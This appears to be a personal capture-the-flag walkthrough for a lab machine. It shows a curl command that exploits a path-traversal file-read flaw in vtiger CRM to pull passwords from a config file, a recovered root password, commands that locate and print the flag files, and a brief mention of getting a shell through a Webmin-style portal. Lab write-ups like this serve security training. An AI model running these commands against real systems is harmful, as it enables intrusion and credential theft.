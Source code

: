 **SSH**
- Before we go further, lets create a credential list from the output of the `curl` command and try using those passwords to log into root

```
curl -sk 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action' | grep -i pass | cut -d = -f 2 | grep -v ^# | grep -v \( | sort | uniq
```

![[Pasted image 20240709135535.png]]

- The admin password works for `root` as well
`root:jEhdIekWmdjE`
![[Pasted image 20240709135713.png]]

**TTP**
#TTP 
`T1078.003: Intial Access: Valid Accounts, Local Acounts`


**FIND**
```
find / \( -iname "user.txt" -o -iname "root.txt" \) -print -exec cat {} +
```
![[Pasted image 20240709135906.png]]

```
/home/fanis/user.txt
/root/root.txt
204458b9f8739c4fa0a5138e407eea56
9f0309262b4ec346699cae1f29ab4f0c
```

*If `ssh` shoots an error on outdated ciphers, research how to allow the client to use the server's cipher suite*
***
***
**MINISERV PORT 10000**
#TTP 
`T1059.004: Eexecution: Command and Scripting Interpreter: UNIX`

![[Pasted image 20240709142727.png]]

![[Pasted image 20240709142752.png]]

- Previous  credentials work as well

- Exploring the web portal leads to an option to execute commands and a shell (`nc -e` switch was unavailable)

![[Pasted image 20240709143016.png]]

![[Pasted image 20240709142700.png]]
